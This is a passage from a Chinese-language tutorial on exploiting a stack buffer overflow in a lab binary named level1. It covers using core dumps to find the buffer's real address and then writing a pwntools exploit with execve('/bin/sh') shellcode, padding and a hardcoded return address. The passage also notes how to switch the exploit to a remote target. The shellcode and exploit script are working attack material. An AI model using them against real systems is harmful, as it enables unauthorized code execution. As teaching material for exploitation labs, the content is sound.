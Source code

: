 溢出点有了，shellcode有了，下一步就是控制PC跳转到shellcode的地址上:

```
[shellcode][“AAAAAAAAAAAAAA”….][ret]
^------------------------------------------------| 
```

对初学者来说这个shellcode地址的位置其实是一个坑。因为正常的思维是使用gdb调试目标程序，然后查看内存来确定shellcode的位置。但当你真的执行exp的时候你会发现shellcode压根就不在这个地址上！这是为什么呢？原因是gdb的调试环境会影响buf在内存中的位置，虽然我们关闭了ASLR，但这只能保证buf的地址在gdb的调试环境中不变，但当我们直接执行./level1的时候，buf的位置会固定在别的地址上。怎么解决这个问题呢？

最简单的方法就是开启core dump这个功能。

```
#!bash
ulimit -c unlimited
sudo sh -c 'echo "/tmp/core.%t" > /proc/sys/kernel/core_pattern' 
```

开启之后，当出现内存错误的时候，系统会生成一个core dump文件在tmp目录下。然后我们再用gdb查看这个core文件就可以获取到buf真正的地址了。

```
#!bash
$./level1 
ABCDAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)

$ gdb level1 /tmp/core.1433844471 
Core was generated by `./level1'.
Program terminated with signal 11, Segmentation fault.
#0  0x41414141 in ?? ()

(gdb) x/10s $esp-144
0xbffff290:  "ABCD", 'A' <repeats 153 times>, "\n\374\267`\204\004\b"
0xbffff335:  "" 
```

因为溢出点是140个字节，再加上4个字节的ret地址，我们可以计算出buffer的地址为$esp-144。通过gdb的命令 “x/10s $esp-144”，我们可以得到buf的地址为0xbffff290。

OK，现在溢出点，shellcode和返回值地址都有了，可以开始写exp了。写exp的话，我强烈推荐pwntools这个工具，因为它可以非常方便的做到本地调试和远程攻击的转换。本地测试成功后只需要简单的修改一条语句就可以马上进行远程攻击。

```
#!bash
p = process('./level1')  #本地测试
p = remote('127.0.0.1',10001)  #远程攻击 
```

最终本地测试代码如下：

```
#!python
#!/usr/bin/env python
from pwn import *

p = process('./level1') 
ret = 0xbffff290

shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"

# p32(ret) == struct.pack("<I",ret) 
#对ret进行编码，将地址转换成内存中的二进制存储形式
payload = shellcode + 'A' * (140 - len(shellcode)) + p32(ret)

p.send(payload) #发送payload

```